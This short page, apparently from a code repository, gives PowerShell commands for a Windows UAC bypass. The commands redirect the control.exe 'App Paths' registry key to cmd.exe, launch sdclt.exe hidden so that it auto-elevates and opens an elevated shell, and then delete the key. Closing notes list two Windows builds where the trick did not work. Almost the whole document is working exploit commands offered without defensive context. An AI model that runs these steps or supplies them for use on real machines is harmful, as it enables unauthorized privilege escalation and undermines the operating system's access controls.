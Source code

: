 ### Create the Registry
```Powershell

New-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Force
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Name "(default)" -Value "C:\Windows\System32\cmd.exe" -Force

```
### Call sdclt.exe
```powershell

Start-Process "C:\Windows\System32\sdclt.exe" -WindowStyle Hidden

```
### Cleanup
```Powershell

Remove-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Recurse -Force

```


### Notes
- Didn't work on Windows 10 Pro N 1909 Build 18363.1139
- Didn't work on  Windows 11 Pro N 23H2 Build 22631.3737